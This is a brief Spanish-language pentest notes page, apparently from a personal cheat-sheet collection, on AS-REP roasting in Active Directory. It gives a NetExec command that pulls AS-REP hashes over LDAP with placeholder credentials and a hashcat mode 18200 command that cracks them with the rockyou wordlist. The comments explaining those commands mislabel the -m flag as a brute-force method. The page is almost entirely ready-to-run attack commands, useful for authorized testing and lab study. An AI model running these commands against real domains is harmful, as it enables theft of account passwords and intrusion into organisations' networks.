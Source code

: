 # ASREProstable 

Tags: #AD #ASREProstable  #Crackmapexec #HashCat #Kali #Parrot 

## Explotar con CrackMapExec

```bash 
❯ nxc ldap IP -u 'clearpass.user' -p 'Password@1' --asreproast output.txt
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```
